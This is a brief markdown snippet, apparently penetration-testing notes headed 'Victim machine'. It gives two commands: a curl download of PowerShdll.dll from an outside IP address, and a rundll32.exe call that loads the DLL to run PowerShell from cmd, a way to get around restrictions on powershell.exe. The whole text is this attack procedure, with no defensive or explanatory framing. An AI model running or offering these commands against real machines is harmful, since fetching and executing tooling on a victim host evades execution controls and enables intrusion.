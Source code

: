 # Victim machine
- Download dll
```bash
curl -O http://192.168.213.136/PowerShdll.dll
```
- Run powershell from cmd
```bash
rundll32.exe PowerShdll.dll,main
```